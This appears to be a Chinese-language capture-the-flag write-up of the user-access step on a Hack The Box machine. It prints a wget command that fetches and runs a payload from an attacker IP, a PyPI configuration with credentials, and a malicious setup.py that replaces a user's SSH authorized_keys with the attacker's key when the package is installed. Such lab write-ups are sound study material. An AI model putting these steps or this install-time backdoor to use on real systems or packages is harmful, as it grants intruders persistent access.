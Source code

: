 ```python
```

```
wget http://10.10.14.35:8080/payload_4.py
chmod +x payload_4.py
python3 payload_4.py sdist register -r local upload -r local
```

`ls -la /var/www/pypi.sneakycorp.htb/`

`ls -la /var/www/pypi.sneakycorp.htb/packages`

仍然不行

枚举发现端口5000正在运行，curl发现是同样的服务

`cat /home/low/.ssh/authorized_keys`


`curl http://pypi.sneakycorp.htb:5000/packages`

修改端口号为5000ip为靶机内部。重复之前的步骤
```
[distutils]
index-servers =
  pypi
  evilx

[pypi]
username:x
password:x

[evilx]
repository: http://127.0.0.1:5000
username: pypi
password: soufianeelhaoui
```
仍然不行，

## 正确的获得user
----

重新参照文档
重新规范步骤
最终成功

setup.py
```python
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a") as f:
        f.seek(0)
        f.truncate()
        f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICcbgJ5j4njB27KYDtnJJ4zvAPMo0bKtz+QfaZ1BRVwd user@k41i")
except Exception as e: pass

setuptools.setup(
    name="evilx",
    version="0.0.1",
    packages=['evilx'],
    description='evilx',
    url='http://pypi.sneakycorp.htb/evilx',
    author="evilx"
)
```
之前的问题是没有写url以及打包的名，同时脚本推key的时候是追加，实际使用中因为有其他玩家，会导致key追加在后面，而不是预期的替换整个内容。增加
